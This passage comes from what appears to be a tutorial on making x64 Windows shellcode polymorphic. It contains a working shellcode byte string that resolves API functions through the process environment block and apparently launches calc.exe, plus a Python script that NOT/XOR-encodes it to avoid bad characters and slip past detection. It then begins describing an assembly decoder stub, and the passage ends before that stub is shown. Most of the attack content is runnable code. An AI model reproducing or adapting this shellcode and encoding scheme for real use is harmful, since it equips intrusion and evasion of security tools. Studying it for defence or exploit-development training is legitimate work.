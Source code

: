 ```python
import sys

shellcode = b"\x4d\x87\xe6\x48\x83\xec\x28\x48\x8d\x3f\x48\x83\xe4\xf0\x4d\x87\xf4\x48\x31\xc9\x49\x87\xfc\x65\x48\x8b\x04\x25\x30\x00\x00\x00\x48\x8b\x40\x60\x48\x31\xff\x48\x8b\x40\x18\x49\x87\xfe\x48\x8b\x70\x10\x48\x83\xc7\x00\x48\x8b\x36\x4c\x87\xef\x48\x8b\x4e\x60\x4c\x87\xef\x48\x8b\x19\x4d\x87\xec\x48\xba\x4b\x00\x45\x00\x52\x00\x4e\x00\x48\x31\xff\x48\x39\xd3\x74\x08\x49\x87\xfc\x75\xd6\x4c\x87\xe7\x48\x8b\x5e\x30\x4d\x89\xf6\x49\x89\xd8\x4d\x87\xe5\x8b\x5b\x3c\x4d\x6b\xe4\x01\x4c\x01\xc3\x4d\x89\xe4\x48\x31\xc9\x49\xc1\xe5\x00\x66\x81\xc1\xff\x88\x4d\x87\xee\x48\xc1\xe9\x08\x49\xc1\xcc\x00\x8b\x14\x0b\x4c\x87\xe7\x4c\x01\xc2\x4d\x89\xed\x44\x8b\x52\x14\x4d\x31\xed\x4d\x31\xdb\x49\x83\xec\x00\x44\x8b\x5a\x20\x49\x83\xfe\x00\x4d\x01\xc3\x4d\x87\xee\x4c\x89\xd1\x4c\x87\xef\x48\xb8\xa8\x96\x91\xba\x87\x9a\x9c\x6f\x48\xc1\xcf\x00\x48\xf7\xd0\x49\x87\xfd\x48\xc1\xe0\x08\x4d\x89\xed\x48\xc1\xe8\x08\x4d\x87\xe6\x50\x4d\x85\xf6\x48\x89\xe0\x49\x87\xfe\x48\x83\xc4\x08\x4d\x89\xe4\x67\xe3\x30\x49\x87\xfe\x31\xdb\x49\x87\xfc\x41\x8b\x1c\x8b\x48\xc1\xe7\x00\x4c\x01\xc3\x4d\x87\xe6\x48\xff\xc9\x49\x87\xfc\x4c\x8b\x08\x4d\x87\xf4\x4c\x39\x0b\x74\x0d\x4d\x87\xee\x75\xd1\x49\xc1\xe6\x00\xcc\x49\x87\xfc\xff\xc1\x4d\x85\xe4\x4d\x31\xdb\x4d\x87\xf4\x44\x8b\x5a\x1c\x4c\x87\xf7\x4d\x01\xc3\x4d\x87\xec\x45\x8b\x3c\x8b\x49\x87\xfe\x4d\x01\xc7\x4d\x31\xf6\x48\x31\xc0\x49\x83\xc5\x00\x50\x49\x87\xfd\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87\x9a\x49\x83\xfc\x00\x48\xf7\xd0\x4d\x87\xee\x50\x49\x87\xfe\x48\x89\xe1\x4d\x85\xe4\x48\x31\xd2\x4d\x87\xee\x48\xff\xc2\x49\x87\xfe\x48\x83\xec\x30\x49\x87\xfc\x41\xff\xd7\x4d\x87\xf4"

xor_key = 0xAC  # Use a key that avoids bad characters

encoded_shellcode = bytearray()
i = 0
while i < len(shellcode):
    chunk = shellcode[i:i+8]
    value = int.from_bytes(chunk, 'little')
    not_value = (~value) & 0xFFFFFFFFFFFFFFFF
    not_chunk = not_value.to_bytes(8, 'little')
    for b in not_chunk:
        encoded_shellcode.append(b ^ xor_key)
    i += 8

print(f"Encoded Shellcode: {','.join([f'0x{b:02x}' for b in encoded_shellcode])}")

positions = [i for i, byte in enumerate(encoded_shellcode) if byte == xor_key]

if positions:
    print(f"Found 0xAC at position(s): {positions}")
else:
    print("0xAC not found in the shellcode")
```

**Here's the output I received after running the script:**

<img width="1473" height="476" alt="image" src="https://github.com/user-attachments/assets/a1e0410a-30f5-407e-82dc-3b0c24203af6" />

Polymorphic prep part 2 continued - The Decoder x64 Assembly code 
-

Cool, so now that we have our encoded shellcode, we now need to write a decoder in x64 assembly.  Just pick one of the index locations the script discovered as your decoding key and apply it to our .asm file below;  I chose key index `38`.  This will be used to yet once again compile our shellcode with an additional layer of polymorphism!  Notice how I added `38` here:
